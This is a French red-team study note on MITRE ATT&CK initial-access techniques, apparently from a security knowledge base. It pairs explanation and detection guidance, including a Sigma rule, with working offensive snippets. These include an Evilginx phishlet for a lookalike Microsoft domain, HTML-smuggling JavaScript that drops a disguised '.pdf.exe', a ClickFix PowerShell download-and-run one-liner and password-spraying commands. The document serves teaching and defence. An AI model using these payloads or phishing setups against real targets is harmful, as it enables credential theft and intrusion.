

# Initial Access

L'accès initial est la première tactique de la matrice MITRE ATT&CK (TA0001) : obtenir une présence sur un système ou un compte du périmètre, à partir de laquelle les tactiques suivantes — exécution, persistance, élévation, mouvement latéral — deviennent possibles. En red team, l'objectif n'est pas de « trouver une faille » mais de produire un point d'appui crédible, obtenu par un vecteur que l'organisation cible pourrait réellement subir, et utilisable sans brûler immédiatement l'opération.

La difficulté est stratégique. Une organisation expose des dizaines de services, des milliers de boîtes mail et des centaines de comptes ; le vecteur le plus simple à exploiter est rarement le plus discret, et le plus discret rarement celui qui mène à l'objectif. Le choix se fait sous contrainte triple : plausibilité, détection, valeur opérationnelle du point d'appui.

> [!abstract] Définition — Accès initial
> Ensemble des techniques permettant d'obtenir pour la première fois un accès à un environnement cible, que ce soit par une action sur un utilisateur (phishing, exécution de fichier), par l'exploitation d'un service exposé, par l'usage de droits déjà valides, ou par la compromission d'un tiers de confiance. L'accès initial se distingue de l'exécution (faire tourner du code) et de la persistance (survivre au redémarrage) : une même action peut relever des trois, mais les objectifs et les contrôles de détection diffèrent.

## Une tactique, plusieurs chemins

Le plan d'accès initial se construit à partir de la reconnaissance externe : inventaire des services exposés, des domaines de messagerie, des comptes identifiables, des prestataires et des technologies. Chaque chemin possible est évalué selon le coût technique, le bruit généré, le temps avant détection et les règles d'engagement, qui peuvent en interdire certains.



| Technique | ID ATT&CK | Prérequis | Bruit typique |
|---|---|---|---|
| Spearphishing avec pièce jointe | T1566.001 | liste de cibles, infrastructure mail | moyen à élevé |
| Spearphishing par lien | T1566.002 | domaine crédible, page de leurre | moyen |
| Spearphishing via service tiers | T1566.003 | compte sur réseau social ou messagerie | faible |
| Spearphishing vocal | T1566.004 | prétexte, accès téléphonique | faible |
| Exécution par l'utilisateur | T1204.001 à .004 | leurre, format adapté | variable |
| Exploitation d'application exposée | T1190 | service accessible, vulnérabilité | faible si ciblé |
| Services distants externes | T1133 | VPN, RDP, Citrix, portail | faible à moyen |
| Comptes valides | T1078.001 à .004 | identifiants, parfois MFA | faible |
| Compromission de la chaîne d'approvisionnement | T1195.001 à .003 | accès fournisseur ou dépendance | très faible |
| Relation de confiance | T1199 | prestataire, partenaire, MSP | très faible |
| Génération de requêtes MFA | T1621 | identifiants valides | élevé |
| Vol de jeton d'application | T1528 | flux OAuth ou device code | faible |

## Phishing et ingénierie sociale

Le phishing reste le vecteur le plus employé parce qu'il contourne le périmètre réseau : il déplace la cible sur le poste de travail de l'utilisateur. Une campagne crédible repose sur quatre éléments cohérents entre eux : le prétexte, l'expéditeur, le contenu et la destination. Un prétexte parfait avec un domaine récent et un certificat de cinq minutes est plus suspect qu'un prétexte banal sur un domaine ancien et correctement authentifié.

### Authentification du courriel

SPF, DKIM et DMARC ne protègent pas l'utilisateur ; ils protègent la réputation du domaine et permettent au gateway de rejeter les usurpations. Pour une campagne, ils doivent être configurés non seulement pour passer, mais pour être alignés : le domaine utilisé dans l'enveloppe, dans l'en-tête `From` et dans la signature DKIM doit être le même, sinon le message échoue à l'alignement DMARC.

```dns
; Zone du domaine de campagne
campagne-exemple.com.        3600 IN TXT  "v=spf1 ip4:203.0.113.10 -all"
mail._domainkey.campagne-exemple.com. 3600 IN TXT "v=DKIM1; k=rsa; p=MIIBIjANBg..."
_dmarc.campagne-exemple.com. 3600 IN TXT  "v=DMARC1; p=reject; rua=mailto:dmarc@campagne-exemple.com; adkim=s; aspf=s"
```

Le `-all` en SPF et le `p=reject` en DMARC empêchent aussi un tiers de réutiliser le domaine. Le reverse DNS et le HELO comptent autant : une IP qui ne résout pas vers le domaine utilisé perd des points de réputation.

```bash
# Vérifier la configuration d'envoi avant une campagne
dig +short TXT campagne-exemple.com
dig +short TXT _dmarc.campagne-exemple.com
dig +short -x 203.0.113.10

# Envoi de test avec en-têtes contrôlés
swaks --to cible@exemple.com \
      --from "Service Facturation <facturation@campagne-exemple.com>" \
      --server smtp.campagne-exemple.com:587 --tls \
      --header "Subject: Facture 2026-1042" \
      --body /tmp/corps.txt
```

### Au-delà de la pièce jointe

Quatre familles dominent aujourd'hui, souvent combinées :

- **MFA fatigue (T1621)** : l'attaquant possède déjà le mot de passe et déclenche des demandes répétées jusqu'à ce que l'utilisateur valide. Efficace sur les déploiements MFA par notification, sans number matching ni vérification contextuelle.
- **Consent phishing (T1528)** : une application OAuth frauduleuse demande des permissions ; l'utilisateur consent et l'attaquant obtient un jeton d'accès durable, sans mot de passe ni MFA. Le jeton survit souvent à la réinitialisation du mot de passe.
- **Device code phishing** : l'attaquant initie un flux d'authentification par code d'appareil et fait saisir le code à la victime sur la page légitime de Microsoft ou Google. L'authentification est réelle, donc les journaux montrent un succès, pas une anomalie de protocole.
- **Adversary-in-the-Middle (T1557)** : un proxy inverse (Evilginx, Modlishka, Muraena) présente la vraie page de connexion, capture le mot de passe et le cookie de session, puis rejoue le cookie. Le MFA est contourné parce que le jeton est volé après validation.

```yaml
# Evilginx : phishlet minimal pour un portail Microsoft
# /root/.evilginx/phishlets/portail.yaml
proxy_hosts:
  - phish_sub: "login"
    orig_sub: "login"
    domain: "microsofft-login.com"
    session: true
    is_landing: true
auth_urls:
  - "/common/oauth2/authorize"
credentials:
  username:
    key: "login"
    search: "loginfmt"
    type: "post"
  password:
    key: "passwd"
    search: "passwd"
    type: "post"
```

```bash
evilginx -p /root/.evilginx -developer
```

Le choix du leurre doit respecter le contexte métier : une facture pour la comptabilité, un partage de document pour un commercial, une alerte RH pour tout le monde. Les QR codes (« quishing ») déplacent la victime vers un téléphone personnel, hors du gateway mail et souvent hors du MDM, ce qui en fait un vecteur apprécié pour contourner les filtres de liens.

## Fichiers et exécution par l'utilisateur

Un fichier envoyé par mail porte normalement le marqueur Mark-of-the-Web (MOTW), stocké dans le flux alternatif `Zone.Identifier`. Ce marqueur déclenche les avertissements Office, le blocage des macros et l'analyse renforcée de Defender. Une grande partie du travail consiste donc à trouver un format qui s'exécute sans cet avertissement, ou qui le rend banal dans le prétexte.

| Format | Exécution | MOTW | Détection principale |
|---|---|---|---|
| `.docm`, `.xlsm` | macro VBA ou XLM | oui | Office créant un processus enfant, AMSI |
| `.lnk` | commande intégrée au raccourci | hérité | `explorer.exe` lançant `cmd`, `mshta` |
| `.iso`, `.img` | montage puis exécution interne | non propagé avant 2022 | montage d'image, lettre de lecteur |
| `.zip` chiffré | extraction puis exécution | hérité | archive avec mot de passe dans le mail |
| `.htm`, `.svg` | HTML smuggling ou script | oui | téléchargement depuis le navigateur |
| `.one` | script intégré OneNote | oui | OneNote lançant un processus |
| `.msi` | `msiexec` | oui | `msiexec /i` depuis un répertoire utilisateur |
| `.url` | navigateur ou partage | hérité | ouverture de lien inattendue |

Le HTML smuggling (T1027.006) est particulièrement efficace : le fichier malveillant n'est jamais envoyé en pièce jointe, il est reconstruit localement par le navigateur à partir de JavaScript. Le gateway ne voit qu'un HTML anodin, et le fichier téléchargé peut porter une extension différente de celle analysée.

```javascript
// HTML smuggling : reconstruction locale d'un binaire encodé
const b64 = "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAA...";
const raw = atob(b64);
const bytes = new Uint8Array(raw.length);
for (let i = 0; i < raw.length; i++) bytes[i] = raw.charCodeAt(i);

const blob = new Blob([bytes], {type: "application/octet-stream"});
const url = URL.createObjectURL(blob);
const a = document.createElement("a");
a.href = url;
a.download = "Facture_2026-1042.pdf.exe";
document.body.appendChild(a);
a.click();
```

ClickFix (T1204.004, « malicious copy and paste ») inverse la logique : ce n'est pas le fichier qui est malveillant, c'est la procédure que la victime exécute elle-même. Une page affiche une fausse erreur — « vérification de sécurité », « mise à jour du navigateur », « document protégé » — et demande de coller une commande dans `Win+R` ou dans une console PowerShell. La commande télécharge et exécute un payload, souvent via `mshta`, `powershell -WindowStyle Hidden` ou `curl`.

```text
# Ce que la victime est invitée à coller (exemple générique)
powershell -w hidden -c "iwr https://maj-navigateur.com/a.ps1 -UseB -OutFile $env:TEMP\a.ps1; & $env:TEMP\a.ps1"
```

Ce vecteur produit des artefacts nets : entrée dans la clé `RunMRU`, processus `powershell` ou `mshta` dont le parent est `explorer.exe`, requête réseau immédiate vers un domaine récent, absence de fichier téléchargé par le navigateur. Il dépend surtout de la maturité de l'utilisateur : un utilisateur formé ne colle pas une commande dans `Win+R`.

## Services exposés

L'exploitation d'un service exposé (T1190) ou d'un accès distant externe (T1133) ne dépend pas de l'utilisateur et laisse moins de traces humaines. Elle exige en revanche une connaissance précise de la version et de la configuration. Les familles récurrentes sont les passerelles VPN et les équipements de bordure, les portails d'accès distant, les messageries et serveurs Exchange, les serveurs de fichiers web, les outils d'administration et de CI/CD, et les appliances de sauvegarde.

La méthode est stable : inventaire des actifs exposés, identification des versions, confrontation aux vulnérabilités connues, test non destructif, exploitation. Les outils de scan automatisé doivent être employés avec parcimonie : un scan massif depuis une IP d'engagement est immédiatement visible et peut faire échouer l'objectif de discrétion.

```bash
# Inventaire contrôlé d'un sous-ensemble d'actifs
nmap -sV -Pn -p 443,8443,10443,3389,5985 --script ssl-cert 203.0.113.0/28

# Identification des technologies et des versions
nuclei -l cibles.txt -t exposures/ -t cves/ -severity critical,high -rate-limit 10
```

Une fois l'accès obtenu, le point d'appui doit être consolidé sans bruit : un webshell (T1505.003) reste l'un des moyens les plus traçables, car il crée un fichier et un processus enfant du serveur web. Les variantes en mémoire, les extensions de serveur et les tâches planifiées déposées par l'application sont souvent préférables, mais elles demandent une connaissance de la stack.

## Comptes valides

L'usage de comptes valides (T1078) est le vecteur le plus discret : aucune exploitation, aucun fichier, aucune anomalie de protocole. Il provient de mots de passe réutilisés, de fuites publiques, de comptes par défaut, de comptes de service mal protégés, ou de jetons volés.

Le password spraying (T1110.003) teste un petit nombre de mots de passe courants sur beaucoup de comptes, en respectant les seuils de verrouillage. Le credential stuffing (T1110.004) réutilise des couples identifiant/mot de passe issus de fuites. Les deux sont détectables par la répartition des échecs : un spraying produit un échec par compte sur une courte fenêtre, un stuffing produit beaucoup d'échecs sur des comptes variés depuis une même source.

```bash
# Récupération de la politique de mot de passe avant tout test
nxc smb 10.10.10.10 -u '' -p '' --pass-pol

# Spraying à faible volume, un mot de passe par compte
nxc smb 10.10.10.0/24 -u users.txt -p 'Automne2026!' --continue-on-success

# Vérification des comptes sans pré-authentification Kerberos
nxc ldap dc.exemple.local -u alice -p 'MotDePasse' --query "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" samaccountname
```

Côté cloud, les chemins les plus fréquents sont le mot de passe sans MFA, le compte invité mal configuré, l'application dont le secret n'expire jamais et le jeton d'accès volé. Un jeton volé ne se révoque pas en changeant le mot de passe : il faut révoquer les sessions et les consentements, ce que beaucoup d'organisations ne font pas dans l'urgence.

## Chaîne d'approvisionnement

La compromission d'un fournisseur (T1195.002) ou l'abus d'une relation de confiance (T1199) permet d'attaquer plusieurs cibles à la fois, avec un niveau de discrétion très élevé puisque le trafic part d'un partenaire légitime. Les scénarios classiques sont la compromission d'un éditeur et de son canal de mise à jour, l'infection d'une dépendance open source, l'accès à un prestataire d'administration (MSP) qui détient des accès chez plusieurs clients, et l'abus d'une fédération ou d'une délégation de confiance entre deux annuaires.

Pour le red team, ce vecteur est rarement autorisé en attaque réelle, car il implique des systèmes hors périmètre. Il est en revanche simulé : test d'une dépendance interne, revue des accès accordés aux prestataires, vérification que le canal de mise à jour est signé et contrôlé. Le lien avec la note [[Supply Chain Attacks]] couvre le versant défensif et les contrôles de build.

## Infrastructure de campagne

L'infrastructure d'accès initial est distincte de l'infrastructure C2 : un domaine brûlé lors du phishing ne doit pas entraîner la perte du team server. Cette séparation est traitée en détail dans [[C2 Infrastructure]] et [[OPSEC Red Team]].

Les éléments à préparer sont : un domaine âgé ou catégorisé, un enregistrement MX valide, SPF/DKIM/DMARC alignés, un reverse DNS cohérent, une IP avec un historique propre, une page de destination servie en HTTPS avec un certificat valide, et une chaîne de redirection qui ne révèle pas le serveur final. Les domaines trop récents, les TLD exotiques et les certificats émis depuis moins de quelques heures sont des signaux forts pour les gateways modernes.

```bash
# Empreinte d'un domaine avant campagne
whois campagne-exemple.com | grep -iE "creation|registrar|expiry"
curl -s "https://crt.sh/?q=campagne-exemple.com&output=json" | jq -r '.[].name_value' | sort -u
# Catégorisation et réputation
curl -s "https://www.virustotal.com/api/v3/domains/campagne-exemple.com" \
     -H "x-apikey: $VT_API_KEY" | jq '.data.attributes.categories'
```

La page de destination doit être cloisonnée : un utilisateur qui n'est pas la cible (adresse IP hors zone, user-agent de scanner, pays différent) doit voir une page neutre ou une erreur, jamais le formulaire de collecte.

## Détection

La détection de l'accès initial combine quatre sources : la passerelle de messagerie, les journaux d'authentification, la télémétrie endpoint et les leurres.

**Passerelle de messagerie.** Les signaux utiles sont l'échec DMARC, un domaine expéditeur âgé de moins de trente jours, une ressemblance visuelle avec un domaine connu, une première interaction entre l'expéditeur et le destinataire, une pièce jointe de type `iso`, `img`, `lnk`, `htm` ou une archive chiffrée, et un QR code dans le corps du message. Les règles sur le seul nom de fichier sont fragiles ; la combinaison « premier contact + pièce jointe exécutable + domaine récent » est beaucoup plus robuste.

**Endpoint.** Les chaînes de processus sont le meilleur indicateur : `WINWORD.EXE` lançant `powershell.exe`, `explorer.exe` lançant `mshta.exe`, `chrome.exe` écrivant puis exécutant un binaire dans `Downloads`, le montage d'une image (`Mount-DiskImage`) suivi d'une exécution depuis la lettre de lecteur. Sysmon événements 1, 3, 11 et 22, et l'événement 4688 avec ligne de commande, fournissent la matière. Pour ClickFix, la clé `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` et l'ouverture de `Win+R` sont des indices directs.

```yaml
title: Commande collée via ClickFix
id: 4c1f9a20-7b3e-4f5a-9d61-2f8b0c7e5a11
status: experimental
logsource:
  product: windows
  category: process_creation
detection:
  selection_parent:
    ParentImage|endswith: '\explorer.exe'
  selection_child:
    Image|endswith:
      - '\powershell.exe'
      - '\pwsh.exe'
      - '\mshta.exe'
      - '\cmd.exe'
  selection_clipboard:
    CommandLine|contains:
      - 'iwr '
      - 'Invoke-WebRequest'
      - 'curl '
      - 'mshta http'
  condition: selection_parent and selection_child and selection_clipboard
falsepositives:
  - Administrateurs lançant une commande depuis Exécuter
level: high
```

**Authentification.** Les journaux à corréler sont les 4624 (types 3 et 10), 4625, 4648, 4768 et 4771 côté Windows, et les journaux de connexion du fournisseur cloud : voyages impossibles, nouvelle application consentie, émission de jeton depuis un appareil inconnu, échecs MFA répétés suivis d'un succès. Un succès après une série de refus MFA est un signal fort de fatigue MFA.

**Leurres.** Un compte honey, une pièce jointe canary, un identifiant factice dans un partage ou un document leurre déclenchent une alerte à faible faux positif. Leur intérêt est de détecter l'attaquant qui a déjà réussi à contourner les contrôles, pas de remplacer les règles comportementales.

La limite de fond est que l'accès initial n'est jamais un événement isolé : c'est une séquence. Détecter un fichier isolé est facile mais bruyant ; détecter la séquence « message externe, premier contact, clic, téléchargement, exécution, connexion sortante » est plus fiable, à condition de corréler les journaux de messagerie, du proxy et de l'endpoint dans le même SIEM. C'est précisément le travail de [[Detection Engineering]] et de [[Threat Hunting]].

> [!quiz] Pourquoi le HTML smuggling échappe-t-il à l'analyse de pièces jointes de la passerelle mail ?
> Parce que le message ne transporte qu'un document HTML anodin ; le fichier exécutable est reconstruit localement par le navigateur à partir de données encodées dans la page. La passerelle devrait analyser le JavaScript et le contexte de téléchargement, pas seulement les pièces jointes.

> [!quiz] Quelle différence entre MFA fatigue et device code phishing ?
> La MFA fatigue suppose que l'attaquant connaît déjà le mot de passe et pousse la victime à approuver une notification. Le device code phishing fait authentifier la victime sur une page légitime avec un code fourni par l'attaquant : l'attaquant obtient un jeton sans jamais voir le mot de passe ni déclencher de contrôle MFA anormal.

> [!quiz] Pourquoi un domaine correctement configuré en SPF, DKIM et DMARC reste-t-il un signal faible pour la détection ?
> Parce que ces mécanismes prouvent seulement que l'expéditeur est autorisé à envoyer pour ce domaine, pas que le domaine est légitime. Un domaine de campagne récent, correctement authentifié, passe les contrôles d'authentification ; c'est l'âge, la réputation et le contexte de la relation qui font la différence.
